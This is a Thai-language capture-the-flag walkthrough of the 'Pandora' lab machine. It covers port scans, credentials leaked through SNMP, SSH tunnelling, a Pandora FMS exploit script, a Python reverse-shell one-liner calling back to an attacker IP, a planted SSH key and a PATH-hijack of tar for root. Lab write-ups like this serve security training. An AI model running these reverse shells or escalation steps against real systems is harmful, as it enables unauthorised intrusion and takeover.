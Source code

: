 
# Recon 

## TCP Scan 

```bash
./scan.sh 10.10.11.136
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:29 +07
Nmap scan report for 10.10.11.136 (10.10.11.136)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
                                                                           
```


## UDP Scan 

```bash
sudo nmap -sU -top-ports=100 10.10.11.136
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:47 +07
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.033s latency).
Not shown: 59 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 56.56 seconds

```

## HTTP 80 

![[Challenge/HTB Challenge/Pandora/IMG/001.png]]

ซึ่งหลังจากลองทดสอบ Fuzzing ไปแล้วก็ไม่พบอะไรที่น่าสนใจ 

## SNMP UDP 161 

ติดตั้ง snmpwalk 
```bash 
sudo apt update 
sudo apt install snmp snmp-mibs-downloader

snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
```

ไม่นานเราก็เจอข้อมูลของ user: daniel:HotelBabylon23  
![[Challenge/HTB Challenge/Pandora/IMG/002.png]]

## Shell as daniel 

จากนั้นลองทดสอบ ssh จะพบว่าสามารถเข้าถึง daniel ได้ด้วยข้อมูลที่ได้ daniel:HotelBabylon23   
![[Challenge/HTB Challenge/Pandora/IMG/003.png]]

## Host Enum 

หากตรวจสอบไปในไฟล์ของ Apache2 จะพบว่ามีการ setup virtual host ชื่อ pandora.panda.htb ไว้ที่ localhost พอร์ต 80 ซึ่งไม่สามารถเข้าได้จากภายนอก 

```xml
daniel@pandora:/etc/apache2/sites-available$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>

```

เพื่อให้เราสามารถเข้าถึงได้เราจำเป็นต้องมีการ ทำ Local port forwarding localhost:80 > kali:10001  

```bash
ssh -N -L 0.0.0.0:10001:localhost:80 daniel@panda.htb # on Kali host 
```

![[Challenge/HTB Challenge/Pandora/IMG/004.png]]

จากข้อมูลของเป้าหมายจะพบว่าเว็ยไซต์ดังกล่าวมีการใช้งานเวอร์ชัน v7.0NG.742_FIX_PERL2020

![[Challenge/HTB Challenge/Pandora/IMG/005.png]]

ทั้งนี้ช่องโหว่ดังกล่าวจำเป็นต้องใช้ Authentication ซึ่งจากการทดสอบใช้ Daniel ก็ไม่สามารถเข้าใช้งานได้ ทำให้ Exploit ดังกล่าวไม่สามารถใช้ได้ 

![[Challenge/HTB Challenge/Pandora/IMG/006.png]]


## Exploit Pandora v7
```python
python3 sqlpwn.py -t 'pandora.panda.htb:10001' -f 'shell.php'
```

![[Challenge/HTB Challenge/Pandora/IMG/007.png]]

## Shell as matt

ใช้ Reverse shell ด้วย python shoryest
```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.30",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![[Challenge/HTB Challenge/Pandora/IMG/008.png]]

![[Challenge/HTB Challenge/Pandora/IMG/009.png]]

```python 
python3 -c 'import pty;pty.spawn("/bin/bash_")'
```

## Shell as ROOT

```bash
find / -perm -4000 -ls 2>/dev/null
```

![[Challenge/HTB Challenge/Pandora/IMG/010.png]]


จากนั้นให้สร้าง public กับ private key สำหรับเข้าไปยังเครื่องด้วยสิทธิของ matt ทั้งนี้เพื่อแก้ปัญหาการรัน sudo -l ไม่ได้ นั่นเอง 

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGmmwxN+kle9JpChMyjN0GqoqZ7mm+hr1AZNpkhgrNkI administrator@windows" > authorized_keys 

sudo ssh -i private_key matt@10.10.11.136
```

# Privilege Escalation

```bash
matt@pandora:~$ ltrace pandora_backup
getuid()                                                                = 1000
geteuid()                                                               = 1000
setreuid(1000, 1000)                                                    = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                       = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                             = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                            = 39
+++ exited (status 1) +++

```


หาเราใช้ ltrace  เราจะพบว่ามีการเรียกใช้ tar สำหรับนำไฟล์ backup ไปใส่ใน /root ฉะนั้นเราจะสร้างโปรแกรม tar ใหม่ โดยให้ระบุ PATH ไปที่ /dev/shm 

```bash
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ export PATH=/dev/shm:$PATH
matt@pandora:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

cd /dev/shm
vim tar
```

เนื้อหาของ tar 
```sh
#!/bin/bash

bash
```

จากนั้นเปลี่ยนสิทธิให้สามารถรันได้

```bash
chmod +x tar 
# รันคำสั่งอีกครั้งก็จะได้ ROOT กลับมา
pandora_backup 
```

![[Challenge/HTB Challenge/Pandora/IMG/011.png]]
# PWNED 